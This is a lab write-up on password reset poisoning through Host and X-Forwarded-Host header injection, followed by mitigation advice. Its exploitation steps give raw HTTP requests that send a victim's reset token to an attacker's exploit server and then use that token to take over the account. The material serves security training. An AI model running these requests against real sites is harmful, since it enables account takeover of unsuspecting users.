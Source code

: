 # Lab 8: Password reset poisoning

## Vulnerability Type
  - Authentication Flaw
  - Password reset poisoning
  - Header manipulation / Host header injection

### OWASP Top 10 Mapping
  - A01:2021 – Broken Access Control (attacker resets password of another user).
  - A05:2021 – Security Misconfiguration (trusting unvalidated headers like X-Forwarded-Host).
  - A07: 2021 – Identification and Authentication Failures

---

## Description

The application’s password reset functionality is vulnerable because it trusts unvalidated user-controlled headers (`X-Forwarded-Host`) when generating password reset links. An attacker can poison the password reset email by injecting a malicious domain into these headers.  

When the victim requests a password reset, the application sends a reset link that includes the attacker’s domain instead of the legitimate one. If the victim clicks the poisoned link, the reset token is leaked to the attacker-controlled server. With this token, the attacker can reset the victim’s password and gain full access to their account.  

This vulnerability arises from **improper validation of input headers** and **insecure password reset logic**, allowing attackers to hijack accounts through social engineering and header injection.  

---

## Tools Used
- **Burp Suite** (Proxy, Intruder, Grep Match/Extract)

---

## Step-by-Step Exploitation

1. **Recon the reset flow**
   - Browse to **Forgot password** and trigger a reset for **your own account**.
   - Intercept **POST /forgot-password** in Burp.
   - Note how the app builds the reset link in the email (usually from `Host` or proxy headers like `X-Forwarded-Host`).

2. **Poison the reset link origin**
   - In the intercepted request, add a header pointing to your exploit server:
     ```http
     X-Forwarded-Host: <your-exploit-host>.exploit-server.net
     ```
   - If unsupported, try `Host` injection or add scheme/port with:
     ```
     X-Forwarded-Proto: https
     X-Forwarded-Port: 443
     ```
   - Forward the request and confirm the reset link points to **your exploit domain**.

3. **Validate the behavior with your account**
   - Click the poisoned link for your account.
   - On your exploit server, verify the inbound request contains the **reset token**:
     ```
     GET /?temp-forgot-password-token=eyJ... HTTP/1.1
     ```
   - This proves the app is trusting your injected header.

4. **Target the victim**
   - Repeat **POST /forgot-password**, but use the victim’s username/email:
     ```http
     POST /forgot-password HTTP/1.1
     Host: target.site
     X-Forwarded-Host: <your-exploit-host>.exploit-server.net
     Content-Type: application/x-www-form-urlencoded

     username=carlos
     ```
   - Send the request.  
   - The victim will receive a poisoned link pointing to **your exploit host**.

5. **Capture the victim’s token**
   - Wait for the victim to click the email link.
   - On your exploit server, capture the **token** from the incoming request.
     - Example:
       ```
       GET /?temp-forgot-password-token=eyJ... HTTP/1.1
       Host: <your-exploit-host>.exploit-server.net
       ```

6. **Redeem the token (single use!)**
   - Immediately use the token to set a new password for the victim:
     ```http
     POST /forgot-password?temp-forgot-password-token=<captured_token> HTTP/1.1
     Host: target.site
     Content-Type: application/x-www-form-urlencoded

     username=carlos&new-password=NewStrongP@ssw0rd
     ```
   - If you get **400 Invalid token**, it has already been used or expired.  
     → Capture a **fresh token** and redeem quickly.

7. **Log in as the victim**
   - Use the victim’s username and the password you set:
     ```
     carlos : NewStrongP@ssw0rd
     ```
   - Confirm access to the victim’s account.

---

### ⚡ Tips
  - **Tokens are one-time use** → redeem quickly after capture.
  - Some apps ignore `X-Forwarded-Host` unless behind a proxy → try `Host` header poisoning instead.
  - Use **Burp Repeater** templates for fast token redemption.

---

## Mitigation

1. **Strict Host Validation**
   - Do not trust user-supplied headers (`Host`, `X-Forwarded-Host`, `X-Forwarded-Proto`, etc.).
   - Define a **static, server-side base URL** for generating password reset links.

2. **Remove Dangerous Headers**
   - Strip or ignore forwarding headers unless absolutely required.
   - If using a reverse proxy, configure it to **overwrite headers with safe values**.

3. **Token Security**
   - Ensure reset tokens are:
     - **Strongly random** (cryptographically secure).
     - **Bound to a user and an IP/session**.
     - **Single-use and short-lived** (expire in minutes).
   - Store tokens **hashed in the database**, not plaintext.

4. **Email Security**
   - Embed only the **reset token**, not user credentials or sensitive data.
   - Avoid reflecting attacker-controlled input in the reset email.

5. **Rate Limiting & Monitoring**
   - Add rate limits on password reset requests.
   - Monitor suspicious headers and repeated reset requests for anomalies.

6. **Testing & Hardening**
   - Conduct security tests for **header injection and host header poisoning**.
   - Use a **web application firewall (WAF)** to block malformed header attacks.
  

---

## Real-World Relevance

 - **Password reset poisoning** has been observed in real-world attacks where misconfigured password reset mechanisms allow attackers to redirect reset links to domains under their control.  
 - Affected systems include **large-scale web applications, SaaS platforms, and financial services** where password resets rely on user-controlled headers such as `Host` or `X-Forwarded-Host`.  
 - Attackers can exploit this to **harvest password reset tokens** and take over user accounts.  
 - A real incident occurred when attackers abused **misconfigured reverse proxies** to capture reset tokens of enterprise accounts.  
 - In penetration testing and bug bounty programs, this vulnerability is often reported under **"Password Reset Poisoning / Host Header Injection"** findings.
